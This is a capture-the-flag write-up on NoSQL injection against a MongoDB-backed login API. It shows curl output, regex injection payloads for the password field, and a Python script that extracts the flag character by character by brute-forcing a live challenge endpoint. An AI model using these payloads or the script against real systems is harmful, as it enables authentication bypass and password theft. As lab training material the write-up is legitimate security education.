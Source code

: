 ```
< Keep-Alive: timeout=5
< 
* Connection #0 to host 206.189.121.131 left intact
{"logged":1,"message":"Login Successful, welcome back admin."}   
```

Now I need to get a grab on the session cookie.. But there is none. At least I have a username: admin.

I've scratched my head and started digging again. And I've found something.

### NoSQL Injection - regex requests

Do you remember these movies when some hacker is cracking somebody's password - character by character?

If you thought this is only a movie trick to keep the viewers interested.. we're both mistaken. Apparently this is really a thing, and we are going to do this right now.

Regex queries/enumeration. Similar to the previous trick, but a bit smarter - instead of matching whatever password user can have - we are going to _reverse guess_ the password character by character.

```
user=admin&password[$regex]=.*
```

By making multiple requests we can match further and further by verifyng the response API is giving (remember `logged` property?). By assuming that the password is a flag we can make a successful login attempt with

```
user=admin&password[$regex]=CHTB.*
```

So let's write a script.

# Exploit

I'm borrowing the baseline script from [0daylabs](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100). After some modifications:

```python
# mongoregexdiscovery.py

import requests
import string
import json 

flag = "CHTB{"
url = "http://206.189.121.131:31978/api/login"

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + have to be avoided because we use regex
    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        rData = json.loads(r.content)
        if rData["logged"] == 1:
        	#we succesfully logged in
            print(payload)
```